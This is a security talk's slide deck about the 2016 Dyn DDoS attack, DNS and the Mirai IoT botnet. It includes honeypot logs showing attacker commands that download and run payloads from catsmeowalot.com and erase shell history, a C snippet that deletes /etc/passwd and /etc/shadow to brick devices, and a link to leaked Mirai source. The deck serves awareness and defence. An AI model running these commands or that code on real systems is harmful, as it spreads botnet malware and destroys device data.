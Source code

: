 #HSLIDE

## About Dyn, Mirai and cats
* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE

![Error](media/DNS_no_response.png)

#VSLIDE

Early Friday morning, __Dyn__, a company that provides __Domain Name Servers (DNS)__ for a 
lot of heavily trafficked websites and services, came under a __massive Distributed 
Denial of Service (DDoS)__ attack. This has disrupted access to many sites for people 
across the U.S. Yes, it’s why your __Spotify__ app is offline, why you can’t stream __Netflix__, 
and why __Twitter__ won’t load. 

#VSLIDE

## Key Findings:

* The Friday October 21, 2016 attack has been analyzed as a complex & sophisticated attack, using maliciously targeted, masked TCP and UDP traffic over port 53.
* Dyn confirms Mirai botnet as primary source of malicious attack traffic.
* Attack generated compounding recursive DNS retry traffic, further exacerbating its impact.

#HSLIDE

## DNS

<pre>
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
</pre>

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#VSLIDE

## Dyn service network
![Dyn network](media/dyn-network-map.png)

#VSLIDE

1. .. elevated bandwidth against our Managed DNS platform in the Asia Pacific, South America, Eastern Europe, and US-West regions ..
2. .. second attack began against our Managed DNS platform. This attack was more globally diverse ...

#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

__... what about artificial cardiac pacemaker?__

#VSLIDE

## How businesses see IoT ..

![MS](media/business_iot.png)

#VSLIDE

## How hackers see IoT ..

![IPCAM](media/1458871382569824928.jpg)

#VSLIDE

Mirai (Japanese for "the future") is malware that turns computer systems running Linux into remotely controlled "bots", that can be used as part of a botnet in large-scale network attacks. It primarily targets online consumer devices such as remote cameras and home routers 

*/WikiPedia/*

#VSLIDE

## History

* http://internetcensus2012.bitbucket.org/paper.html
* https://gitlab.com/rav7teif/linux.wifatch

#VSLIDE

*Two years ago while spending some time with the Nmap Scripting Engine (NSE) someone mentioned that we should try the classic telnet login root:root on random IP addresses. This was meant as a joke, but was given a try. We started scanning and quickly realized that there should be several thousand unprotected devices on the Internet.*

![Clientmap](media/clientmap_16to9_small.jpg)

#VSLIDE

![Patched](media/Fig1_26.png)

#VSLIDE

## https://github.com/jgamblin/Mirai-Source-Code

*Leaked Linux.Mirai Source Code for Research/IoT Development Purposes
Uploaded for research purposes and so we can develop IoT and such.*

#HSLIDE

<pre>
2016-10-28 05:00:46+0200 admin trying auth password
2016-10-28 05:00:46+0200 login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 admin authenticated with password
2016-10-28 05:00:50+0200 executing command "cd /tmp; 
  wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; 
  chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com  -c get tftp1.sh; 
  chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; 
  chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; 
  rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 Command found: history -c
2016-10-28 05:00:50+0200 Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 honeypot terminal protocol connection lost disconnected
</pre>

#VSLIDE

<pre>
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && 
  chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && 
  chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && 
  chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && 
  chmod +x ayyx86 && ./ayyx86
 ...
</pre>

#VSLIDE

## Meet the Blackhat! 

![Blackhat](media/catsmeowalot.png)

#VSLIDE

## Meet the Whitehat! 

![Whitehat](media/malwaretech.png)

#VSLIDE

#VSLIDE

## Should/could we brick .. *pardon* .. clean the "world"?

*Mirai-Counter-Research/mirai/bot/patch.c*

<pre>
int patch_password()
{
	//TODO: Less intrusive cases

	//Last resort -- brick the machine
	//TODO:
	return (unlink("/etc/passwd") && 
   unlink("/etc/passwd-") && 
   unlink("/etc/shadow") && 
   unlink("/etc/shadow-"));
}
</pre>

#HSLIDE

## Outcome, so far
* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)
  * ... probably many more
* DDoS as a service is off the shelf for now ...

#HSLIDE

Slides and more on Anycast and DNS:

<pre>
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
</pre>

